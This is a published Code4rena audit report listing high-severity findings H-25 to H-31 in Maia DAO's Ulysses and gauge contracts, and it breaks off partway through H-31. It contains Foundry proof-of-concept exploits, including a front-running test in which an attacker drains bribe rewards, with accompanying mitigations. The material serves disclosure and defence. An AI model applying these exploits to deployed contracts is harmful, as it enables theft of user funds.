## [[H-25] `UlyssesToken` asset ID accounting error](https://github.com/code-423n4/2023-05-maia-findings/issues/275)
*Submitted by [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/275), also found by [KupiaSec](https://github.com/code-423n4/2023-05-maia-findings/issues/747), [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/743), [jasonxiale](https://github.com/code-423n4/2023-05-maia-findings/issues/740), [zzzitron](https://github.com/code-423n4/2023-05-maia-findings/issues/703), [Fulum](https://github.com/code-423n4/2023-05-maia-findings/issues/646), [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/541), [minhquanym](https://github.com/code-423n4/2023-05-maia-findings/issues/506), [lsaudit](https://github.com/code-423n4/2023-05-maia-findings/issues/419), [Atree](https://github.com/code-423n4/2023-05-maia-findings/issues/229), [BLOS](https://github.com/code-423n4/2023-05-maia-findings/issues/224), [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/223), and [SpicyMeatball](https://github.com/code-423n4/2023-05-maia-findings/issues/203)*

Asset IDs in the `UlyssesToken` contract are **1-based**, see [L49 in UlyssesToken.addAsset(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L49) and [L55 in ERC4626MultiToken.constructor(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-4626/ERC4626MultiToken.sol#L55) of the parent contract.\
However, when removing an asset from the `UlyssesToken` contract, the last added asset gets the **0-based** ID of the removed asset, see [L72 in UlyssesToken.removeAsset(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L72).

This leads to the following consequences:

1.  Duplicate IDs when removing an asset.<br>
Example:<br>
We have assets with IDs `1,2,3,4`. Next, the asset with ID=2 is removed. Now, we have assets with IDs `1,1,3` because the last asset with ID=4 gets ID=2-1=1.<br>

2. The last asset cannot be removed after removing the first asset.<br>
Example:<br>
Once the first asset with ID=1 is removed, the last asset gets ID=0 instead of ID=1. When trying to remove the last asset [L62 in UlyssesToken.removeAsset(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L62) will **revert** due to underflow.<br>

3. The last asset can be added a second time after removing the first asset.<br>
Example:<br>
Once the first asset with ID=1 is removed, the last asset gets ID=0 instead of ID=1. When trying to add the last asset again [L45 in UlyssesToken.addAsset(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L45) will **not revert** since ID=0 indicates that the asset wasn't added yet. Therefore, the underlying vault can contain the same token twice with **different** weights.

In conclusion, the asset accounting of the `UlyssesToken` contract is broken after removing an asset (especially the first one). This was also highlighted as a special area of concern in the audit details: `ulysses AMM and token accounting`.

### Proof of Concept

The above issues are demonstrated by the new test cases `test_UlyssesTokenAddAssetTwice` and `test_UlyssesTokenRemoveAssetFail`. Just apply the *diff* below and run the tests with `forge test --match-test test_UlyssesToken`:

```diff
diff --git a/test/ulysses-amm/UlyssesTokenTest.t.sol b/test/ulysses-amm/UlyssesTokenTest.t.sol
index bdb4a7d..dcf6d45 100644
--- a/test/ulysses-amm/UlyssesTokenTest.t.sol
+++ b/test/ulysses-amm/UlyssesTokenTest.t.sol
@@ -3,6 +3,7 @@ pragma solidity >=0.8.0 <0.9.0;

 import {MockERC20} from "solmate/test/utils/mocks/MockERC20.sol";
 import {UlyssesToken} from "@ulysses-amm/UlyssesToken.sol";
+import {IUlyssesToken} from "@ulysses-amm/interfaces/IUlyssesToken.sol";

 import {UlyssesTokenHandler} from "@test/test-utils/invariant/handlers/UlyssesTokenHandler.t.sol";

@@ -29,4 +30,28 @@ contract InvariantUlyssesToken is UlyssesTokenHandler {
         _vaultMayBeEmpty = true;
         _unlimitedAmount = false;
     }
+
+    function test_UlyssesTokenRemoveAssetFail() public  {
+        UlyssesToken token = UlyssesToken(_vault_);
+
+        // remove first asset with ID=1
+        token.removeAsset(_underlyings_[0]);
+        // due to accounting error, last asset now has ID=0 instead of ID=1
+
+        // remove last asset --> underflow error due to ID=0
+        token.removeAsset(_underlyings_[NUM_ASSETS - 1]);
+    }
+
+    function test_UlyssesTokenAddAssetTwice() public  {
+        UlyssesToken token = UlyssesToken(_vault_);
+
+        // remove first asset with ID=1
+        token.removeAsset(_underlyings_[0]);
+        // due to accounting error, last asset now has ID=0 instead of ID=1
+
+        // add last asset again --> doesn't revert since it "officially" doesn't exist due to ID=1
+        vm.expectRevert(IUlyssesToken.AssetAlreadyAdded.selector);
+        token.addAsset(_underlyings_[NUM_ASSETS - 1], 1);
+    }
+
 }

```

We can see that adding the last asset again does **not revert** but trying to remove it still **fails**:

    Encountered 2 failing tests in test/ulysses-amm/UlyssesTokenTest.t.sol:InvariantUlyssesToken
    [FAIL. Reason: Call did not revert as expected] test_UlyssesTokenAddAssetTwice() (gas: 169088)
    [FAIL. Reason: Arithmetic over/underflow] test_UlyssesTokenRemoveAssetFail() (gas: 137184)

### Tools Used

VS Code, Foundry and MS Excel

### Recommended Mitigation Steps

Fortunately, all of the above issues can be easily fixed by using an **1-based** asset ID in [L72 of UlyssesToken.removeAsset(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L72):

```diff
diff --git a/src/ulysses-amm/UlyssesToken.sol b/src/ulysses-amm/UlyssesToken.sol
index 552a125..0937e9f 100644
--- a/src/ulysses-amm/UlyssesToken.sol
+++ b/src/ulysses-amm/UlyssesToken.sol
@@ -69,7 +69,7 @@ contract UlyssesToken is ERC4626MultiToken, Ownable, IUlyssesToken {

         address lastAsset = assets[newAssetsLength];

-        assetId[lastAsset] = assetIndex;
+        assetId[lastAsset] = assetIndex + 1;
         assets[assetIndex] = lastAsset;
         weights[assetIndex] = weights[newAssetsLength];

```

After applying the recommended fix, both new test cases pass:

    [PASS] test_UlyssesTokenAddAssetTwice() (gas: 122911)
    [PASS] test_UlyssesTokenRemoveAssetFail() (gas: 134916)

### Assessed type

Under/Overflow

**[Trust (judge) increased severity to High](https://github.com/code-423n4/2023-05-maia-findings/issues/275#issuecomment-1631203217)**

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/275#issuecomment-1655654603):**
 > We recognize the audit's findings on Ulysses Token. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools Wrapper.

***

## [[H-26] Accessing the incorrect offset to get the nonce when a flag is 0x06 in `RootBridgeAgent::anyExecute()` will lead to marked as executed incorrect nonces and could potentially cause a DoS](https://github.com/code-423n4/2023-05-maia-findings/issues/267)
*Submitted by [0xStalin](https://github.com/code-423n4/2023-05-maia-findings/issues/267)*

Not reading the correct offset where the `nonce` is located can lead to the set being executed the incorrect nonce, which will cause unexpected behavior and potentially a DoS when attempting to execute a `nonce` that was incorrectly marked as already executed.

### Proof of Concept

The structure of the data is encoded as detailed in the [`IRootBridgeAgent` contract](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol#L144):

```solidity
 -        |            Flag               |        Deposit Info        |             Token Info             |   DATA   |  Gas Info   |
 -        |           1 byte              |         4-25 bytes         |     3 + (105 or 128) * n bytes     |   ---	 |  32 bytes   |
 -        |_______________________________|____________________________|____________________________________|__________|_____________|

 -        | callOutSignedMultiple = 0x6   |   20b + 1b(n) + 4b(nonce)  |      32b + 32b + 32b + 32b + 3b 	  |   ---	 |  16b + 16b  |
```

The actual encoding of the data happens on the `BranchBridgeAgent` contract, [on these lines](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L288-L301).

Based on the data structure, we can decode and determine which offset is located on what data:
- `data[0]` => flag
- `data[1:21]` => an address
- `data[21]` => hTokens.length
- `data[22:26]` => The 4 bytes of the nonce

So, when flag is `0x06`, the nonce is located at the offset `data[22:26]`, which indicates that the current offset that is been accessed is wrong [(`data[PARAMS_START_SIGNED:25]` === `data[21:]`)](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L1083-L1085).

### Recommended Mitigation Steps

Make sure to read the `nonce` from the correct offset, based on the data structure as explained in the [`IRootBridgeAgent` contract](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol).

For `flag 0x06`, read the offset as follows. Either of the two options are correct:
- **`nonce` is located at: `data[22:26]`**

```solidity
nonce = uint32(bytes4(data[PARAMS_START_SIGNED + PARAMS_START : 26]));
nonce = uint32(bytes4(data[22:26]));
```

### Assessed type

en/de-code

**[Trust (judge) increased severity to High](https://github.com/code-423n4/2023-05-maia-findings/issues/267#issuecomment-1631217285)**

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/267#issuecomment-1653165461)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/267#issuecomment-1709928867):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/commit/1a2c244e5167778ef79626a0c9238ffb19b64c5d).

***

## [[H-27] Lack of a return value handing in `ArbitrumBranchBridgeAgent._performCall()` could cause users' deposit to be locked in contract](https://github.com/code-423n4/2023-05-maia-findings/issues/266)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/266), also found by Emmanuel ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/682), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/681))*

In `ArbitrumBranchBridgeAgent`, the `_performCall()` is overridden to directly call `RootBridgeAgent.anyExecute()` instead of performing an ``AnyCall`` cross-chain transaction, as `RootBridgeAgent` is also in Arbitrum. However, unlike ``AnyCall``, `ArbitrumBranchBridgeAgent._performCall()` is missing the handling of a return value for `anyExecute()`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/ArbitrumBranchBridgeAgent.sol#L143>

```Solidity
 function _performCall(bytes memory _callData) internal override {
        IRootBridgeAgent(rootBridgeAgentAddress).anyExecute(_callData);
    }
```

That is undesirable, as `RootBridgeAgent.anyExecute()` has a try/catch that prevents the revert from bubbling up. Instead, it expects `ArbitrumBranchBridgeAgent._performCall()` to revert when `success == false`, which is currently missing.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L1068-L1074>

```Solidity
            try RootBridgeAgentExecutor(bridgeAgentExecutorAddress).executeSignedWithDeposit(
                address(userAccount), localRouterAddress, data, fromChainId
            ) returns (bool, bytes memory res) {
                (success, result) = (true, res);
            } catch (bytes memory reason) {
                result = reason;
            }
```

### Impact

Without handling the scenario when `RootBridgeAgent.anyExecute()` returns false, `ArbitrumBranchBridgeAgent._performCall()` will continue the execution, even for failed calls and not revert due to the try/catch in `RootBridgeAgent.anyExecute()`.

In the worst case, users could lose their bridged deposit when they use `ArbitrumBranchBridgeAgent.callOutSignedAndBridge()` to interact with dApps and encountered failed calls.

When failed calls to dApps occur, `ArbitrumBranchBridgeAgent.callOutSignedAndBridge()` is expected to revert the entire transaction and reverse the bridging of the deposit. However, due to the issue with `_performCall()`, the bridged deposit will not be reverted, thus locking up user funds in the contract. Furthermore, `RootBridgeAgent.anyExecute()` will mark the deposit transaction as executed in `executionHistory[]`, preventing any `retryDeposit()` or `retrieveDeposit()` attempts to recover the funds.

### Proof of Concept

Add the following `MockContract` and test case to `ArbitrumBranchTest.t.sol` and run the test case:

```Solidity
    contract MockContract is Test {
        function test() external {
            require(false);
        }
    } 

    function testPeakboltArbCallOutWithDeposit() public {
        //Set up
        testAddLocalTokenArbitrum();

        // deploy mock contract to call using multicall
        MockContract mockContract = new MockContract();

        //Prepare data
        address outputToken;
        uint256 amountOut;
        uint256 depositOut;
        bytes memory packedData;

        {
            outputToken = newArbitrumAssetGlobalAddress;
            amountOut = 100 ether;
            depositOut = 50 ether;

            Multicall2.Call[] memory calls = new Multicall2.Call[](1);

            //prepare for a call to MockContract.test(), which will revert
            calls[0] = Multicall2.Call({target: address(mockContract), callData: abi.encodeWithSignature("test()")});
    
            //Output Params
            OutputParams memory outputParams = OutputParams(address(this), outputToken, amountOut, depositOut);

            //toChain
            uint24 toChain = rootChainId;

            //RLP Encode Calldata
            bytes memory data = abi.encode(calls, outputParams, toChain);

            //Pack FuncId
            packedData = abi.encodePacked(bytes1(0x02), data);
        }

        //Get some gas.
        hevm.deal(address(this), 1 ether);

        //Mint Underlying Token.
        arbitrumNativeToken.mint(address(this), 100 ether);

        //Approve spend by router
        arbitrumNativeToken.approve(address(localPortAddress), 100 ether);

        //Prepare deposit info
        DepositInput memory depositInput = DepositInput({
            hToken: address(newArbitrumAssetGlobalAddress),
            token: address(arbitrumNativeToken),
            amount: 100 ether,
            deposit: 100 ether,
            toChain: rootChainId
        });

        //Mock messaging layer fees
        hevm.mockCall(
            address(localAnyCongfig),
            abi.encodeWithSignature("calcSrcFees(address,uint256,uint256)", address(0), 0, 100),
            abi.encode(0)
        );

        console2.log("Initial User Balance: %d", arbitrumNativeToken.balanceOf(address(this)));

        //Call Deposit function
        arbitrumMulticallBridgeAgent.callOutSignedAndBridge{value: 1 ether}(packedData, depositInput, 0.5 ether);

        // This shows that deposit entry is successfully created
        testCreateDepositSingle(
            arbitrumMulticallBridgeAgent,
            uint32(1),
            address(this),
            address(newArbitrumAssetGlobalAddress),
            address(arbitrumNativeToken),
            100 ether,
            100 ether,
            1 ether,
            0.5 ether
        );

        // The following shows that the user deposited to the LocalPort, but it is not deposited/bridged to the user account
        console2.log("LocalPort Balance (expected):", uint256(50 ether));
        console2.log("LocalPort Balance (actual):", MockERC20(arbitrumNativeToken).balanceOf(address(localPortAddress)));
        //require(MockERC20(arbitrumNativeToken).balanceOf(address(localPortAddress)) == 50 ether, "LocalPort should have 50 tokens");

        console2.log("User Balance: (expected)", uint256(50 ether));
        console2.log("User Balance: (actual)", MockERC20(arbitrumNativeToken).balanceOf(address(this)));
        //require(MockERC20(arbitrumNativeToken).balanceOf(address(this)) == 50 ether, "User should have 50 tokens");

        console2.log("User Global Balance: (expected)", uint256(50 ether));
        console2.log("User Global Balance: (actual)", MockERC20(newArbitrumAssetGlobalAddress).balanceOf(address(this)));
        //require(MockERC20(newArbitrumAssetGlobalAddress).balanceOf(address(this)) == 50 ether, "User should have 50 global tokens");

        // retryDeposit() will fail as well as the transaction is marked executed in executionHistory
        uint32 depositNonce = arbitrumMulticallBridgeAgent.depositNonce() - 1;
        hevm.deal(address(this), 1 ether);
        //hevm.expectRevert(abi.encodeWithSignature("GasErrorOrRepeatedTx()"));
        arbitrumMulticallBridgeAgent.retryDeposit{value: 1 ether}(true, depositNonce, "", 0.5 ether, rootChainId);

    }
```

### Recommended Mitigation Steps

Handle the return value of `anyExecute()` in `_performCall()` and revert on `success == false`.

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/266#issuecomment-1632542251)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/266#issuecomment-1709931154):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/266).

***

## [[H-28] Removing a `BribeFlywheel` from a Gauge does not remove the reward asset from the rewards depo, making it impossible to add a new Flywheel with the same reward token](https://github.com/code-423n4/2023-05-maia-findings/issues/214)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/214), also found by [giovannidisiena](https://github.com/code-423n4/2023-05-maia-findings/issues/462) and [Audinarey](https://github.com/code-423n4/2023-05-maia-findings/issues/373)*

Removing a bribe Flywheel (`FlywheelCore`) from a Gauge (via `BaseV2Gauge::removeBribeFlywheel`) does not remove the reward asset (call `MultiRewardsDepot::removeAsset`) from the rewards depo (`BaseV2Gauge::multiRewardsDepot`), making it impossible to add a new Flywheel (by calling `BaseV2Gauge::addBribeFlywheel`) with the same reward token (because `MultiRewardsDepot::addAsset` reverts as the assets already exist).

The impact is limiting protocol functionality in unwanted ways, possibly impacting gains in the long run. Example: due to incentives lost by not having a specific token bribe reward.

### Proof of Concept

Observation: a `BribeFlywheel` is a `FlywheelCore` with a `FlywheelBribeRewards` set as the `FlywheelRewards`, typically created using the `BribesFactory::createBribeFlywheel`.

### Scenario and execution flow

- A project decides to add an initial  `BribeFlywheel` to the recently deployed `UniswapV3Gauge` contract.
- This is done by calling [`UniswapV3GaugeFactory::BaseV2GaugeFactory::addBribeToGauge`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L144-L148).
  - The execution further goes to `BaseV2Gauge::addGaugetoFlywheel` where [the bribe flywheel reward token is added](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/BaseV2Gauge.sol#L135) to the multi reward depo.
- A project decides, for whatever reason (a bug in the contract, an exploit, a decommission, a more profitable wheel that would use the same rewards token), that they want to replace the old flywheel with a new one.
- Removing this is done via calling [`UniswapV3GaugeFactory::BaseV2GaugeFactory::removeBribeFromGauge`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L151-L154).
  - The execution further goes to `BaseV2Gauge::removeBribeFlywheel`, where the flywheel is removed but the reward token asset [is not removed from the multi reward depo](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/BaseV2Gauge.sol#L144-L152). There is no call to [`MultiRewardsDepot::removeAsset`](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/depots/MultiRewardsDepot.sol#L57-L65):

```Solidity
    function removeBribeFlywheel(FlywheelCore bribeFlywheel) external onlyOwner {
        /// @dev Can only remove active flywheels
        if (!isActive[bribeFlywheel]) revert FlywheelNotActive();

        /// @dev This is permanent; can't be re-added
        delete isActive[bribeFlywheel];

        emit RemoveBribeFlywheel(bribeFlywheel);
    }
```

- After removal, when trying to add a new flywheel with the same rewards token, the execution fails with `ErrorAddingAsset` since the [`addAsset`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/BaseV2Gauge.sol#L135) call reverts since [the rewards token was not removed](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/depots/MultiRewardsDepot.sol#L48) with the previous call to `BaseV2Gauge::removeBribeFlywheel`.

### Recommended Mitigation Steps

when `BaseV2Gauge::removeBribeFlywheel` is called for a particular flywheel, also remove its corresponding reward depo token.

Example implementation:

```diff
diff --git a/src/gauges/BaseV2Gauge.sol b/src/gauges/BaseV2Gauge.sol
index c2793a7..8ea6c1e 100644
--- a/src/gauges/BaseV2Gauge.sol
+++ b/src/gauges/BaseV2Gauge.sol
@@ -148,6 +148,9 @@ abstract contract BaseV2Gauge is Ownable, IBaseV2Gauge {
         /// @dev This is permanent; can't be re-added
         delete isActive[bribeFlywheel];
 
+        address flyWheelRewards = address(bribeFlywheel.flywheelRewards());        
+        multiRewardsDepot.removeAsset(flyWheelRewards);
+
         emit RemoveBribeFlywheel(bribeFlywheel);
     }
```

**[Trust (judge) increased the severity to High](https://github.com/code-423n4/2023-05-maia-findings/issues/214#issuecomment-1631216394)**

**[0xLightt (Maia) confirmed, but disagreed with severity and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/214#issuecomment-1632701449):**
 > This happens due to not being able to remove strategies from `FlyWheelCore` and the immutability in bribes. In accruing bribes for gauges, there is only one general FlyWheel per token, so removing it from the `RewardsDepot` would actually brick all rewards of the FlyWheel's token.
> 
> The goal with removing the flywheel from the gauge is to stop forcing the user to call `accrue` and update the `rewardIndex` for that flywheel to save gas or remove an unwanted token. After removing this forced accrual, users can increase their voting balance, accrue and then decrease the voting balance without accruing again. So the balances to accrue rewards can't be trusted and would lead to issues if we tried to reuse the same FlyWheel for the same strategy. One solution would be to add the option to remove the strategy from the flywheel, but could lead to un-accrued rewards being bricked. 
> 
> If there is a need to migrate the bribe system, there needs to be a migration of the gauge system as well. This is intended so that users can opt in into the migration, in turn, protecting them.
> 
> I believe the best solution would be to leave it up to the user to choose the bribes they want to accrue. By default, all users could have all bribes set as `optOut` for all strategies and `FlywheelBooster` would always return 0 when querying `boostedBalanceOf` and wouldn't take the user's balance into account in `boostedTotalSupply`. If the user decides to `optIn` into a bribe for strategy (we would mimic a minting scenario), they would accrue with 0 balance, having their current balance added to the the strategy's `boostedTotalSupply` and `boostedBalanceOf`, which would return the allocated `gaugeWeight` instead of 0. The opposite is when a user tries to `optOut` after being `optIn`. There should be the option to give up rewards, actually bricking in them, but it would be useful in case there is an issue with the token; for example, reverts when transferring from the `rewardsDepot`. The gauge would force the user to accrue rewards for all `optIn` bribes when changing it's balance.
> This way, we can completely remove governance around bribes, but would still keep the immutability of the bribes system intact.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/214#issuecomment-1709935233):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/address-214).

***

## [[H-29] A malicious user can front-run Gauges's call `addBribeFlywheel` to steal bribe rewards](https://github.com/code-423n4/2023-05-maia-findings/issues/206)
*Submitted by [said](https://github.com/code-423n4/2023-05-maia-findings/issues/206), also found by [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/771)*

### Lines of code
<https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelAcummulatedRewards.sol#L46-L54>

### Impact

When the Gauge in the initial setup and flywheel is created and added to the gauge via `addBribeFlywheel`, a malicious user can front-run this to steal rewards. This could happen due to the un-initialized `endCycle` inside the `FlywheelAcummulatedRewards` contract.

### Proof of Concept

Consider this scenario :

1. Gauge is first created, then an admin deposit of 100 eth is sent to depot reward.
2. FlyWheel is also created, using `FlywheelBribeRewards` inherent in the `FlywheelAcummulatedRewards\` implementation.
3. A malicious attacker has `addBribeFlywheel` that is about to be called by the owner and front-run it by calling `incrementGauge` (a huge amount of gauge token for this gauge).
4. The call `addBribeFlywheel` is executed.
5. Now, a malicious user can trigger `accrueBribes` and claim the reward.
6. The bribe rewards are now stolen and a malicious user can immediately decrement their gauge from this contract.

All of this is possible, because `endCycle` is not initialized inside `FlywheelAcummulatedRewards` when first created:

<https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelAcummulatedRewards.sol#L26-L35>

```solidity
abstract contract FlywheelAcummulatedRewards is BaseFlywheelRewards, IFlywheelAcummulatedRewards {
    using SafeCastLib for uint256;

    /*//////////////////////////////////////////////////////////////
                        REWARDS CONTRACT STATE
    //////////////////////////////////////////////////////////////*/

    /// @inheritdoc IFlywheelAcummulatedRewards
    uint256 public immutable override rewardsCycleLength;

    /// @inheritdoc IFlywheelAcummulatedRewards
    uint256 public override endCycle; // NOTE INITIALIZED INSIDE CONSTRUCTOR

    /**
     * @notice Flywheel Instant Rewards constructor.
     *  @param _flywheel flywheel core contract
     *  @param _rewardsCycleLength the length of a rewards cycle in seconds
     */
    constructor(FlywheelCore _flywheel, uint256 _rewardsCycleLength) BaseFlywheelRewards(_flywheel) {
        rewardsCycleLength = _rewardsCycleLength;
    }
    ...

}
```

So right after it is created and attached to the gauge, the distribution of rewards can be called immediately via `accrueBribes` inside the gauge. If no previous user put their gauge tokens into this gauge contract, rewards can easily drained.

Foundry PoC (add this test inside `BaseV2GaugeTest.t.sol`):

```solidity
    function testAccrueAndClaimBribesAbuse() external {
        address alice = address(0xABCD);
        MockERC20 token = new MockERC20("test token", "TKN", 18);
        FlywheelCore flywheel = createFlywheel(token);
        FlywheelBribeRewards bribeRewards = FlywheelBribeRewards(
            address(flywheel.flywheelRewards())
        );
        gaugeToken.setMaxDelegates(1);
        token.mint(address(depot), 100 ether);

        // ALICE SEE THAT THIS IS NEW GAUGE, about to add new NEW FLYWHEEL REWARDS

        // alice put a lot of his hermes or could also get from flash loan
        hermes.mint(alice, 100e18);
        hevm.startPrank(alice);
        hermes.approve(address(gaugeToken), 100e18);
        gaugeToken.mint(alice, 100e18);
        gaugeToken.delegate(alice);
        gaugeToken.incrementGauge(address(gauge), 100e18);
        console.log("hermes total supply");
        console.log(hermes.totalSupply());
        hevm.stopPrank();
        // NEW BRIBE FLYWHEEL IS ADDED
        hevm.expectEmit(true, true, true, true);
        emit AddedBribeFlywheel(flywheel);
        gauge.addBribeFlywheel(flywheel);
        // ALICE ACCRUE BRIBES
        gauge.accrueBribes(alice);
        console.log("bribe rewards balance before claim : ");
        console.log(token.balanceOf(address(bribeRewards)));

        flywheel.claimRewards(alice);
        console.log("bribe rewards balance after claim : ");
        console.log(token.balanceOf(address(bribeRewards)));

        console.log("alice rewards balance : ");
        console.log(token.balanceOf(alice));
        // after steal reward, alice could just disengage from the gauge, and look for another new gauge with new flywheel
        hevm.startPrank(alice);
        gaugeToken.decrementGauge(address(gauge), 100e18);
        hevm.stopPrank();
    }
```

PoC log output:

      bribe rewards balance before claim : 
      100000000000000000000
      bribe rewards balance after claim : 
      0
      alice rewards balance : 
      100000000000000000000

### Recommended Mitigation Steps

Add initialized `endCycle` inside `FlywheelAcummulatedRewards`:

```solidity
    constructor(
        FlywheelCore _flywheel,
        uint256 _rewardsCycleLength
    ) BaseFlywheelRewards(_flywheel) {
        rewardsCycleLength = _rewardsCycleLength;
        endCycle = ((block.timestamp.toUint32() + rewardsCycleLength) /
                rewardsCycleLength) * rewardsCycleLength;        
    }
```

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/206#issuecomment-1631200310)**

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/206#issuecomment-1633255816):**
 > The mitigation should take into account the following issue [#457](https://github.com/code-423n4/2023-05-maia-findings/issues/457). So the best solution would be to check if `endCycle` is zero. If it is, then zero rewards are accrued and `endCycle` is set to end of the epoch.

**[Trust (judge) increased severity to High and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/206#issuecomment-1649400073):**
 > Upon second viewing, it seems the attack is in line with High severity.


**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/206#issuecomment-1709936080):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/206-457).

***

## [[H-30] Incorrect flow of adding liquidity in `UlyssesRouter.sol`](https://github.com/code-423n4/2023-05-maia-findings/issues/201)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/201), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/770)*

Usually the router in `AMM` is stateless, i.e. it isn't supposed to contain any tokens, it is just a wrapper of low-level pool functions to perform user-friendly interactions. The current implementation of `addLiquidity()` assumes that a user firstly transfers tokens to the router and then the router performs the deposit to the pool. However, it is not atomic and requires two transactions. Another user can break in after the first transaction and deposit someone else's tokens.

### Proof of Concept

The router calls the deposit with `msg.sender` as a receiver of shares:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesRouter.sol#L49-L56>

```solidity
    function addLiquidity(uint256 amount, uint256 minOutput, uint256 poolId) external returns (uint256) {
        UlyssesPool ulysses = getUlyssesLP(poolId);

        amount = ulysses.deposit(amount, msg.sender);

        if (amount < minOutput) revert OutputTooLow();
        return amount;
    }
```

And in deposit pool transfer tokens from `msg.sender`, which is the router:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-4626/UlyssesERC4626.sol#L34-L45>

```solidity
    function deposit(uint256 assets, address receiver) public virtual nonReentrant returns (uint256 shares) {
        // Need to transfer before minting or ERC777s could reenter.
        asset.safeTransferFrom(msg.sender, address(this), assets);

        shares = beforeDeposit(assets);

        require(shares != 0, "ZERO_SHARES");

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);
    }
```

First, a user will lose tokens sent to the router, if a malicious user calls `addLiquidity()` after it.

### Recommended Mitigation Steps

Transfer tokens to the router via `safeTransferFrom()`:

```solidity
    function addLiquidity(uint256 amount, uint256 minOutput, uint256 poolId) external returns (uint256) {
        UlyssesPool ulysses = getUlyssesLP(poolId);
        address(ulysses.asset()).safeTransferFrom(msg.sender, address(this), amount);

        amount = ulysses.deposit(amount, msg.sender);

        if (amount < minOutput) revert OutputTooLow();
        return amount;
    }
```

### Assessed type

Access Control

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/201#issuecomment-1631643366)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/201#issuecomment-1655655112):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[H-31] On Ulysses omnichain - `RetrieveDeposit` might never be able to trigger the `Fallback` function](https://github.com/code-423n4/2023-05-maia-findings/issues/183)
*Submitted by [zzebra83](https://github.com/code-423n4/2023-05-maia-findings/issues/183), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/311)*

The purpose of the `retrieveDeposit` function is to enable a user to be able to redeem a deposit they entered into the system. The mechanism works based on the promise that this function will be able to forcefully make the root bridge agent trigger the `fallback` function.

                if (!executionHistory[fromChainId][uint32(bytes4(data[1:5]))]) {
                //Toggle Nonce as executed
                executionHistory[fromChainId][nonce] = true;

                //Retry failed fallback
                (success, result) = (false, "")

By returning false, the `anycall` contract will attempt to trigger the `fallback` function in the branch bridge, which would in turn set the status of the deposit as failed. The user can then redeem their deposit because its status is now failed.

        function redeemDeposit(uint32 _depositNonce) external lock {
        //Update Deposit
        if (getDeposit[_depositNonce].status != DepositStatus.Failed) {
            revert DepositRedeemUnavailable();
        }

